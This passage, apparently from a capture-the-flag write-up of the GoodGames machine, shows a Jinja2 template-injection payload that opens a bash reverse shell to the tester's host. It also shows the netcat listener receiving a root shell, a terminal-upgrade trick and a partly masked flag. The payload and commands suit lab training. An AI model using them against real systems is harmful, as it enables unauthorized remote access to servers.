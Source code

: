 Not only is that execution, but as root!

#### Shell

I'll use the same payload to get a reverse shell:



    {{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() }}



On submitting, it hangs, but there's a connection at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.130 45016
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    root@3a453ab39d3d:/backend#



I'll use the `script` trick to get a better shell:



    root@3a453ab39d3d:/backend# script /dev/null -c bash
    script /dev/null -c bash            
    Script started, file is /dev/null
    root@3a453ab39d3d:/backend# ^Z                 
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    root@3a453ab39d3d:/backend#



There's also a single user with `user.txt`:



    root@3a453ab39d3d:/home/augustus# cat user.txt
    e897d18e************************



## Shell as augustus on GoodGames

### Enumeration

#### Container

It's pretty clear that I'm in a Docker container. For one, I'm already
root, but just found `user.txt`. The `ifconfig` shows an IP of
172.19.0.2 on eth0.
